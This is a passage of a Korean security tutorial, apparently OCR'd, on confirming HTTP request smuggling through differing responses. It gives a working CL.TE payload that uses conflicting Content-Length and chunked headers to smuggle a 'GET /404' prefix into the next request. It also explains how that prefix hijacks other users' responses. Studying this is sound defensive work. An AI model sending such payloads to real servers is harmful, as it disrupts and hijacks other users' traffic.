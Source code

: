 > 요청 시간 지연을 이용한 방법 중 TE.CL 취약점은 웹 어플리케이션이 CL.TE에 취약한 경우, 종종 타 사용자의 서비스 이용을 방해할 수 있으므로 CL.TE 취약점을 먼저 점검하길 권장합니다.
> 

## 03-02. 다른 응답 값을 이용한 방법

취약점 유발 패킷을 보낸 직후 아래 정상 패킷을 보내는 경우, 예상과는 다른 응답을 받을 수 있는 점을 이용하여 취약점을 확인합니다. 

아래 패킷은 일반적인 경우 응답 코드 200을 수신하지만, 서버에 취약점 패킷이 수신 된 직후에 아래 패킷이 들어오면 정상적인 요청에 대한 응답이 방해 받아 공격자가 의도한 페이지의 응답 패킷을 보낼 수 있게 됩니다.

```
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

> - "공격" 요청과 "정상" 요청은 서로 다른 네트워크 연결을 사용하여 서버로 보내야 합니다. 동일한 연결을 통해 두 요청을 모두 보내는 것은 취약점이 존재한다는 것을 증명하지 않습니다.
- "공격" 요청과 "일반" 요청은 가능한 한 동일한 URL 및 매개변수 이름을 사용해야 합니다. 이는 많은 최신 애플리케이션이 URL 및 매개변수를 기반으로 Front-end 요청을 다른 Back-end 서버로 라우팅하기 때문입니다. 동일한 URL과 매개변수를 사용하면 공격이 작동하는 데 필수적인 동일한 Back-end 서버에서 요청을 처리할 가능성이 높아집니다.
> 

### CL.TE 취약점

취약점 확인을 위해 아래 패킷을 서버로 전송합니다.

```
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=\r\n
0

GET /404 HTTP/1.1
Foo: x
```

공격에 성공하면 Back-end 서버에서 마지막 두 줄을 다음 요청에 속하는 패킷으로 인식하여 패킷이 끝나길 대기합니다.

직후에 같은 Host의 임의 페이지 요청이 수신되면 아래와 같은 형태의 패킷이 완성되어 404 에러 페이지를 응답합니다.
```
GET /404 HTTP/1.1
Foo: xPOST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```
